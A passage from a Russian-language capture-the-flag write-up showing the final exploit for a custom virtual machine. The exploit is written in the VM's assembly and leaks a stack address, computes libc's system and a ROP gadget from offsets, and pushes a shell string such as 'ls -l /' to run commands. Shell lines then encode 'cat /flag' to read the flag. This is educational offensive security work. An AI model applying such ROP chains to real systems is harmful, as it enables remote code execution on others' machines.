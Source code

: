 Наконец, можно заняться украшательствами и добиться того, чтобы программа не крашилась после `system`, а вызывала функцию `exit`, но это уже необязательно.

Окончательный эксплоит выглядит так:

```asm
// Достаем адрес стека
pop a
sub a 328
// Сдвигаем на 88 байт вперед, чтобы указывало в начало шелл-кода
add a 88

// Получаем адрес system
pop b
pop b
pop b
pop b
pop b
pop b
pop b
add b 176144

// Получаем адрес pop rdi; ret
mov c b
sub c 174523

// Кладем на стек подряд шелл-код, адрес pop rdi; ret, адрес шелл-кода, адрес ret и адрес system
pop d
pop d
pop d
pop d
mov d 13264972891059052
push d
mov d c
add d 1
push b
push d
push a
push c
```

Запуская этот эксплоит на удаленном сервере, находим в корне файл `/flag`.

Чтобы заменить команду `ls -l /` на `cat /flag`, недостаточно просто изменить число, которое кладется на стек, ведь `cat /flag` с нулевым байтом занимает 10 байт, что не влезает в одно машинное слово:

```shell
$ printf "cat /flag\0" | rev | xxd -p
67616c662f20746163

$ echo $((0x67)) $((0x616c662f20746163))
103 7020098271757754723
```
